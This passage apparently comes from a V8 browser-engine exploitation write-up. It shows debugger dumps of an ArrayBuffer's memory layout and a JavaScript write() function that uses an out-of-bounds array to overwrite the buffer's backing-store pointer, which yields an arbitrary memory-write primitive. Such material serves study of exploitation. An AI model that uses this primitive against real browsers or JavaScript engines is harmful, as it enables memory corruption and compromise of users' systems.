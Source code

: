 ```
    | 0x34120824317d: [Map]
    |  - type: JS_ARRAY_BUFFER_TYPE
    |  - instance size: 56
    |  - inobject properties: 0
    |  - elements kind: HOLEY_ELEMENTS
    |  - unused property fields: 0
    |  - enum length: invalid
    |  - stable_map
    |  - back pointer: 0x341208042301 <undefined>
    |  - prototype_validity cell: 0x341208182445 <Cell value= 1>
    |  - instance descriptors (own) #0: 0x3412080421a9 <DescriptorArray[0]>
    |  - prototype: 0x341208208ba9 <Object map = 0x3412082431a5>
    |  - constructor: 0x341208208ad9 <JSFunction ArrayBuffer (sfi = 0x34120818a1d1)>
    |  - dependent code: 0x3412080421e1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
    |  - construction counter: 0
    | 
    | [object ArrayBuffer]
```

```
pwndbg> dd 0x341208087c0d-1
0000341208087c0c     0824317d 080426dd 080426dd 00000041
0000341208087c1c     00000000|56adc5c0 00005555|56adc610
0000341208087c2c     00005555 00000002 00000000 00000000
0000341208087c3c     00000000 00000000 08042a59 0000020a
```

If we use `oob` to overwrite the backing store pointer (`<1>`), any reads and writes to `victim_buf` will end up going to the, overwritten address! Unfortunately the pointer doesn't line up exactly with the 8 byte alignment of our `oob` array, so corrupting the pointer without clobbering anything else takes a bit of work. Note that fully correct implementation would also overwrite the ArrayBuffer's length field, but here we know that our initial size will be large enough for the data we need to write.

```js
function write(addr, data) {
    // Our OOB read/write is 8 bytes at a time, and it doesn't line up exactly with the 
    // address field of the victim buffer. So we need to do some finagling to write the
    // new address without clobbering other data. VICTIM_BUF_PTR_OFFSET was determined
    // experimentally.

    // Write lower half of new address
    const addr_low = addr & 0xffffffffn; 
    const curr_addr_low = ftoi(oob[VICTIM_BUF_PTR_OFFSET]);
    const new_addr_low = (addr_low << 32n) | (curr_addr_low & 0xffffffffn);
    oob[VICTIM_BUF_PTR_OFFSET] = itof(new_addr_low);

    // Write upper bytes of new address
    const addr_high = addr & 0xffffffff00000000n;
    const curr_addr_high = ftoi(oob[VICTIM_BUF_PTR_OFFSET + 1]);
    const new_addr_high = (addr_high >> 32n) | (curr_addr_high & 0xffffffff00000000n);
    oob[VICTIM_BUF_PTR_OFFSET + 1] = itof(new_addr_high);

    // Now that the address has been correctly set, write data at that address
    let u8_buf = new Uint8Array(victim_buf);
    for (let i = 0; i < data.length; i++) {
        u8_buf[i] = data[i];
    }
}
```

